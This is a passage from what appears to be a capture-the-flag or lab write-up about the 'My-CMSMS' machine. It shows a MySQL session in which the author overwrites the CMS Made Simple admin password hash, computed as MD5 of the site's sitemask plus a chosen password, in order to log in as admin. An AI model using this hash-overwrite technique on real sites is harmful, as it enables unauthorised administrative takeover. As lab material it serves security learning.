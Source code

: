 Lets Login into the CMS made simple site , I tired to decode this hash value but noluck from anywhere so I changed the password with my own MD5 hash value as this →

![Untitled](My-CMSMS/Untitled%202.png)

Now I set the `admin` password as `StrongShiv8` →

```sql
MySQL [cmsms_db]> select * from cms_users \G;
*************************** 1. row ***************************
      user_id: 1
     username: admin
     password: 59f9ba27528694d9b3493dfde7709e70
 admin_access: 1
   first_name: 
    last_name: 
        email: admin@mycms.local
       active: 1
  create_date: 2020-03-25 09:38:46
modified_date: 2020-03-26 10:49:17
1 row in set (0.170 sec)

ERROR: No query specified

MySQL [cmsms_db]> update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value
    -> FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'StrongShiv8'))) where username = 'admin';
Query OK, 1 row affected (0.173 sec)
Rows matched: 1  Changed: 1  Warnings: 0

MySQL [cmsms_db]> select * from cms_users \G;
*************************** 1. row ***************************
      user_id: 1
     username: admin
     password: 97fd6b919bf2ef743ca052e90c5dc693
 admin_access: 1
   first_name: 
    last_name: 
        email: admin@mycms.local
       active: 1
  create_date: 2020-03-25 09:38:46
modified_date: 2020-03-26 10:49:17
1 row in set (0.171 sec)

ERROR: No query specified

MySQL [cmsms_db]>
```
{: .nolineno}
{: .nolineno}

I used this query as it is encrypted the password as MD5 internally and save it in its location →
